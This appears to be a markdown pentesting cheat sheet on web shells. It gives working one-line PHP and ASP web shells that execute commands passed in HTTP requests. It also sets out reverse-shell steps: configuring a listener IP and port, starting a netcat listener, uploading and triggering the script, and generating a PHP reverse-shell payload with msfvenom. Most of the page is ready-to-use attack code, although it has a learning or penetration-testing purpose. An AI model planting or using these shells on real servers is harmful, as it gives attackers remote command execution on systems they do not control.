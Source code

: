 # Web Shells
***
### ***Web shell***
#### A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint.


### [PHP bash web shell](https://github.com/Arrexel/phpbash)

### [Web Shells from SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)

### Simple Web Shell in PHP
```php
<?php system($_GET['cmd']); ?>
```

#### When using the above script, it's best to use source-view (**[CTRL+U]**), to only check the command output without HTML rendering.

### Simple Web Shell For .NET
```asp
<% eval request('cmd') %>
```

### Reverse Shell
#### A reverse shell is a type of shell where the victim initiates a connection to our machine
#### [pentestmonkey PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell)
#### First we need to set up our listener ip and port:
```php
$ip = 'my_ip'
$port = my port
```
#### Then just start a listener (**netcat**) with the port used above, upload the script onto the web application, and finally visit the link to execute the script.
#### Setting up netcat
```shell
$ nc -lvnp my_port
```

### Generating Custom Reverse Shell Scripts using **MSFVenom**
```shell
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
#### -p flag is to set up the payload, and to specify the output language we can use the -f flag
